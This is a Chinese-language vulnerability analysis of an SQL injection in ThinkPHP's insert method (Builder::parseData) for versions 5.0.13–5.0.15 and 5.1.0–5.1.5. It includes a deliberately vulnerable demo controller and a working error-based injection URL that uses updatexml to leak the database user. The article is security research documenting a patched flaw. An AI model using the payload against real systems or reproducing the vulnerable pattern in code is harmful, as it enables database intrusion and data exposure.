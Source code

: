 ```yaml
---
title: "5.1.0 <= Thinkphp <= 5.1.5 sql注入漏洞"
id: zhfly3166
---
```


# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert** 方法注入）。本次漏洞存在于 **Builder** 类的 **parseData** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。

## 三、复现过程

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->insert([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **application/database.php** 文件中配置数据库相关信息，并开启 **application/config.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
); 
```

### poc

```
http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/037ce33eedef07ea33ba24661df49e12.png)

### 漏洞分析

![2.png](../img/a8726ae41d82d0040db0dfba745fa726.png)

首先在官方发布的 **5.0.16** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](../img/6e61d6ac1065c908972ec2997bb1a021.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，代码如下：

![4.png](../img/a7ba6b5a5c541fd1ef80d37df51239b5.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的 **$this->builder->insert()** 最终调用的是 **Builder** 类的 **insert** 方法。在 **insert** 方法中，我们看到其调用 **parseData** 方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据 **$val** 进行了拼接返回。我们的恶意数据存储在 **$val[1]** 中，虽经过了 **parseKey** 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](../img/4663617b6d170576a2db0c90ee9e6917.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的 **insert** 方法，直接通过替换字符串的方式，将 **$data** 填充到 **SQL** 语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](../img/f02df8f90e0a4ce8504b21e83c006457.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch** 结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察 **ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec** 进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP** 内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格** ，这也是为什么 **ThinkPHP** 官方没有对 **exp** 的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](../img/82bafba85780bf87311d9cf36d164555.png)

### 漏洞修复

![8.png](../img/7124cc7f69d4b82df0a00d676a3728c6.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](../img/c2ccbf2fb0267ed7c940515c7a7aecf8.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln
